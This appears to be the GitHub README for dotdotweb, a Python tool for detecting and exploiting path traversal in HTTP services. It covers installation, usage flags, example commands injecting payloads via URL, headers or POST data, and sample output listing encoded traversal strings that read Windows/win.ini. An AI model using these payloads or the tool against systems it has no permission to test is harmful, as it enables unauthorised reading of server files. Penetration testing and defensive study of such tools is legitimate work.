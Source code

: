 dotdotfarm
==========
![Version](https://img.shields.io/badge/version-1.4.1-blue)

Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services

Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make **~3K requests per second**

Features
========
- async client for parallel requesting of target (speedup)
- increasing simultaneous connections in the TCP connector (speedup)
- ability to fetch files' content after succeeding payload
- specifying payload in any part of query (url, headers or POST data)

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm
cd dotdotfarm
pip install -r requirements.txt
python setup.py install
```

Usage
=====
```bash
usage: dotdotweb.py [-h] [-o {windows,linux}] [-D DEPTH] [-t TIMEOUT]
                    [-f FILE] [-R] [-fs FS] [-fc FC] [-H HEADERS] [-d DATA]
                    [-m {get,post,put,trace,delete}]
                    url

path traversal identificator & exploit

positional arguments:
  url                   url for testing

options:
  -h, --help            show this help message and exit
  -o {windows,linux}, --os-type {windows,linux}
  -D DEPTH, --depth DEPTH
                        depth of PT searching
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections
  -f FILE, --file FILE  specific file for PT detection
  -R, --print-files     read traversed files
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        specify header for requests
  -d DATA, --data DATA  specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- High speed of requests rate can trigger WAF of you target
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- ~~Need of OS specifying~~
